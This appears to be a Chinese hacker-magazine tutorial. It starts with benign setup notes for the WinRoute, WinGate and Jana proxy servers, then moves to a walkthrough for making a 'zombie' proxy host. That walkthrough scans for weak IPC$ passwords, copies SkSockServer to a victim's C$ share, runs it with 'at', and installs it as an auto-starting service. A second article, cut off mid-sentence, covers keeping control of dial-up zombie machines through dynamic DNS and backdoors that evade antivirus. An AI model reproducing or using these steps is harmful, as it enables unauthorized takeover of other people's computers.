

WinRoute Administration 原则上不需要作任何设置，局域网上的 QQ 立刻就可以使用，客户机 QQ 的系统参数设置如图 8 所示，不要设防火墙地址，只要服务器打开了 WinRoute，马上就可以连通 QQ。



如果你不放心，可以看一看服务器的各种选项，例如 WinRoute 的 Packet Filter（包过滤），看看有没有图 9 上的选项。



如果要把 WinRoute 临时断开，可以在 WinRoute Monitor 的右键菜单中选“Stop WinRoute Engine”。在这里只介绍了 WinRoute 的代理服务功能，其还具有很多其他的功能，还请读者自己来研究吧。

### 三、WinGate5.0代理服务器

WinGate 是一个代理服务器及防火墙软件包，它可以使得多台计算机通过一个连接上网。WinGate 是最完美的解决方案，它几乎在任意环境下都能极好地工作，从小型家庭办公室共享一个 Modem 连接，中等规模办公室共享一个 ISDN 连接，到一个大型复杂的网络共享一条专线，其都可以应付自如。WinGate 5.0 运行在一个具有 TCP/IP 协议的网络上，服务器端软件则必须安装在运行有 Windows 95/98/NT 操作系统的机器上。

WinGate 的安装同样也很简单，只要按照提示一步一步的来做就可以，基本不需要手工输入。在安装过程中，WinGate 会提示你给 administrator 设置一个密码。

WinGate 的运行环境要求并不高，当我们安装完成后，需要先对 WinGate 进行有关设置。首先启动 WinGate，在启动时要输入前面设置的管理员密码。进入管理界面后，你可以建立用户账户，当然你也可以不建，WinGate 默认匿名账户是 guest。如果不考虑安全问题，可以不新建账号而使用 WinGate 默认的账号，如图 10 所示。

在我们进行下一步设置之前，我想先来简要地介绍一下 WinGate 的管理界面。



左面的视图窗口是“控制面板”，右边是各种状态事件信息。在“控制面板”中有 3 个选项卡分别是“系统”、“服务”、“用户”。在“系统”选项卡中可以设置 E-mail 账户、DNS 服务和缓冲区的容量等一些基本信息，一般我们不需要做改动。“服务”选项卡是我们需要主要配置的。在这里我们可以配置一些代理服务如 FTP 代理、POP3 代理、SOCKS 代理、Telnet 代理和 WWW 代理等等。

下面我就用 WWW 代理做例子来说明代理服务器的设置，如图 11 所示。服务端口一般为 80 端口，也可以按照需要自行修改，其他的基本不用修改。如果我们要指定只有某部分用户才能访问此代理服务的话，我们就需要在策略中进行配置。点击“ADD”按钮，选择“指定用户或组”添加一个账号。这样以后只有此账号能够使用此代理服务。

图 12 中右边部分是监视视图，分别是“Activity”（活动）、“Network”（网络）、“History”（历史）、“Firewall”（防火墙）。在“Activity”（活动）视图里可以看到哪位用户在使用哪种代理服务，如图 12 所示。



在“Network”（网络选项）中可以看到你的本地网络状况。“History”（历史）中可以看到访问历史记录，如图 13 所示。



到这里，配置和有关说明就结束了。现在你可以使用 WinGate 做代理上网冲浪了。

### 四、Jana Server 2代理服务器

Jana 的安装过程很简单，在此就不再叙述了，大家同样只需要按照安装向导的提示便可以轻松搞定。在这里，我主要来阐述 Jana 的设置。首先要运行 JanaAdmin 来启动代理服务，然后我们通过浏览器来设置 Jana 代理服务。在浏览器的地址栏中输入 `http://127.0.0.1:2506/jana-admin/` 便可以进入管理配置界面，如图 14 所示。

在主界面中有 3 个按钮，分别是“User Settings”、“Monitor”、“Configuration”，在“User Settings”中我们可以修改 E-mail 密码、Pop3 服务密码等。在“Monitor”中可以看到网络当前的通讯状况，监视每一个会话过程。在“Configuration”中可以配置一些所要启用的服务，如图 15 所示。





点击“Server”进入代理服务配置界面，在这里可以配置代理服务器、HTTP、FTP、新闻服务器、SNTP、DNS、MIME 服务等。一般来说，这几项我们可以不做修改。我们所要修改的主要是“General”项，如图 16 所示。



有关这个代理的介绍到这里就结束了。下面让我们走进实战现场！

## 五、Snake代理
### —肉鸡制作实例

- **任务**：通过使用 snake 代理服务器和利用 Windows 的 IPC 漏洞来自己动手制作一个肉鸡代理。
- **所需工具**：snake 的代理服务器 SkServer
- **下载地址**：http://snake.gnuchina.org/SkSockServer/SkSockServer1.09.zip
- **IPC 扫描器**：这里使用的 20cnIPC 扫描器，之所以使用这个扫描器是因为它的探测速度很快并且支持多线程和口令字典探测。

首先使用 IPC 扫描器对一个网段进行扫描，如图 17 所示。找出有漏洞的主机。在此推荐大家使用 20cnIPC 扫描器。在开始地址和结束地址选择一个账号字典和密码字典。不要在“同步植入”前打钩。点击“开始”进行扫描。从结果列表中选择一个有漏洞的主机。



图 17

> 注：对于很多爱好黑客技术的朋友来说，每个人可能都拥有不少现成的肉机。对于这些朋友来说，扫描这一步当然就可以省略了。

虽然是对局域网的扫描，不过看得出来其存在问题的机器还并不算少数。看来，提高安全意识也是重中之重啊。

我们从上面挑选 192.168.0.143 这台机器做实验，在控制台中输入以下命令，如图 18 所示。



图 18

SkSockServer 文件位于磁盘根目录下，这里我们最好将它改个名字，我将它改为 ss。现在将 ss 植入对方的机器。命令如下：

```c
C:\>copy ss.exe \192.168.0.143\c$\
已复制 1 个文件。
```

使用 at 命令来使 ss.exe 运行：

```c
C:\> at \192.168.0.143 20:00 \192.168.0.143\c$\ss.exe -install
```

设置端口：

```c
C:\>at \192.168.0.143 20:00 \192.168.0.143\c$\ss.exe -config 8880
The Port Value have set to 8880
```

设置启动类型：

```c
ss -config starttype 2
The new StartType have set to 2 - Auto
```

接下来我们就要启动服务：

```c
c:>net start skserver
Snake SockProxy Service
```

完成后先来检查一下是不是已经启动了。

```c
c:>net start
These Windows 2000 services are started:
Snake SockProxy Service ← 就是它，如图 19
```



图 19

## 给动态肉鸡加固定地址——花生壳后门实战

文/netff

看完前面的肉鸡制作是不是心里已经很痒了，其实大凡喜欢Hacker技术的朋友多多少少都有几台属于自己的肉鸡吧？在这些肉鸡中有相当部分是有固定IP地址的。呵呵，要上这类有固定IP地址的肉鸡很是方便，只要它开着，我们就能很快地登录到它上面去干我们想干的事情。但是，由于种种原因，能够拥有固定IP地址的机器只是占互联网上的少数，再者，这些机器通常有专人管理，一般不会出现太大的问题，这令大多黑客技术的朋友头疼，只能眼睁睁地看着它静静地放在那里。于是，大家纷纷把矛头指向了拨号上网的用户。也许有些人会问：拨号上网的用户在断网后再上网时，IP地址都变了，还拿它做肉鸡有什么用？用花生壳就可以解决肉鸡地址改变的问题。

虽然我们可以给拨号上网的肉鸡种上种种后门、做我们想做的事情。但有一点可以肯定的是，对方在下次上网时，IP地址是变动的。虽然我们可以给对方装一些如用邮件通知功能的后门程序，或者干脆装个像网络神偷、灰鸽子等具有上网即时通知功能的软件。但这些工具如邮件通知受种种原因影响，质量打了折扣，像网络神偷等软件的上网通知功能虽然不错，但如果对方有装杀毒软件呢？难保杀毒软件会将你所装的后门一律KILL吧？哦，那就不装，反正它固定在几个特定的IP段中，等到要用到它的时候再对特定网段进行扫描，扫到肉鸡的机器名后再试试看是不是属于我们的肉鸡。这不是一个办法，但太麻烦、费时，另外，如果肉鸡起个和很多人都相同的机器名，如ABC,你就只好慢